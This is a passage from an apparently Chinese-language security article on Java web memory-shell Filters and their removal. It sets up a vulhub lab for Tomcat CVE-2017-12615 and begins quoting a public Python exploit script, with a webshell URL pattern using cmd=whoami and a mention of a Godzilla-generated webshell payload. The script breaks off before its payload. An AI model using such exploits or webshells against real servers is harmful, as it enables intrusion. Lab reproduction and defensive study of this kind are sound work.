 两种方法各有优劣，第一种方法比较通用，直接适配所有中间件。但恶意 Filter 依然在，只是恶意代码被清除了。第二种方法比较优雅，恶意 Filter 会被清除掉。但每种中间件注销 Filter 的逻辑不尽相同，需要一一适配。

部分引自：

https://gv7.me/articles/2020/kill-java-web-filter-memshell/

**03**

**演示环境搭建**

漏洞环境使用 vulhub 的 tomcat[CVE-2017-12615]，Vulhub 是一个基于 docker 和 docker-compose 的的开源漏洞靶场，只需要进入对应目录并执行一条语句即可启动一个全新的漏洞环境，简单高效。安装 vulhub 的过程不再赘述，启动环境后如下图，下载好环境包并且搭建好之后就可以着手复现了。

![图片](https://mmbiz.qpic.cn/mmbiz_png/4Nnx5WGr7bbFY6kAZ8Xcfknibl0ryP0Y2h86FibhlvvTQ5hvicXX5Nm31tSicjibTWVBWLN8gqFMvAWk23riclweQ7ZA/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/4Nnx5WGr7bbFY6kAZ8Xcfknibl0ryP0Y2AT1NP8snvJj8UZylfibw7OxJtOVfdyOjkfgpSHROeG0INY2JJEjND1Q/640?wx_fmt=png)

可以在互联网搜索这个漏洞对应的利用脚本 [python3 环境]，该 POC 信息如下

![图片](https://mmbiz.qpic.cn/mmbiz_png/4Nnx5WGr7bbFY6kAZ8Xcfknibl0ryP0Y2G6KXgBa1Ywbd2NM7kr8EEJ9SSeWwA8EjIElcfiaQpwcISGlwUkTiaEwQ/640?wx_fmt=png)

```
# 脚本内容  
# coding:utf-8  
# author:cbd666  
  
import requests  
import sys  
  
''''' 
Usege:python3 CVE-2017-12615.py http://127.0.0.1/ 
Shell:http://120.79.66.58:8080/写入的文件?pwd=cbd&cmd=whoami 
'''  
  
  
def attack(url):  
    headers = {  
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"}  
# data的内容是使用哥斯拉的生成的webshell  
```
